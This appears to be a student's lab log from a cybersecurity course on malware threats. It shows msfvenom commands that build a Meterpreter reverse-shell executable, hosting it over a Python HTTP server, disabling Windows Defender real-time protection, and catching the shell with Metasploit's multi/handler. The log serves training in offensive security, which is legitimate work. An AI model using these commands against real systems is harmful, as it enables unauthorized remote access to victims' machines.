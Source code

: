 # Day 09 – Malware Threats (Continued) – Reverse Shell via Malware

## 📘 Module: Malware Threats (Module 7)

On Day 09, the Malware Threats module was continued with hands-on practice. The focus was on how malware can be crafted, delivered, and exploited to gain unauthorized access to a target system using reverse shells.

---

## 📚 Topics Covered

- **What are Advanced Persistent Threats (APTs)?**
  - APTs are defined as a type of network attack, where an attacker gains unauthorized access to a target network and remains undetected for a long period of time.
  - Long-term, stealthy cyberattacks targeting specific entities.
  - Often involve multiple phases: reconnaissance, exploitation, and persistence.

- **Creating a Malware Payload using `msfvenom`:**
  - Payload: `windows/meterpreter/reverse_tcp`
  - Command example:
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f exe > shell.exe
    ```

- **Transferring the Payload to the Victim (Windows 10):**
  - Hosted `shell.exe` on Kali using Python HTTP server:
    ```bash
    python3 -m http.server
    ```
  - Downloaded the file on the Windows 10 machine via browser.

- **Bypassing Windows Defender:**
  - **Turned off Real-Time Protection** in Windows Security settings to allow execution.

- **Exploiting with Metasploit:**
  - Used `msfconsole` with `exploit/multi/handler`.
  - Payload set as:
    ```bash
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST <your_IP>
    set LPORT 4444
    run
    ```
  - Upon executing `shell.exe` on Windows, a **reverse shell** session was established via `meterpreter`.

- **Post-Exploitation Access:**
  - Confirmed full access to the victim machine through the `meterpreter` session.
  - Basic enumeration done (e.g., system info, user privileges).

---

## 🛠️ Tools and Commands Used

- `msfvenom`
- `python3 -m http.server`
- `msfconsole` with:
  - `exploit/multi/handler`
  - Payload: `windows/meterpreter/reverse_tcp`

---

## 📝 Summary

On Day 09, the theoretical understanding of malware threats was extended into practical exploitation. Using Kali Linux and Metasploit, a custom reverse shell was created and deployed against a Windows 10 machine, successfully achieving remote access. This exercise demonstrated how attackers exploit malware payloads and emphasized the need for strong endpoint protection and user awareness.
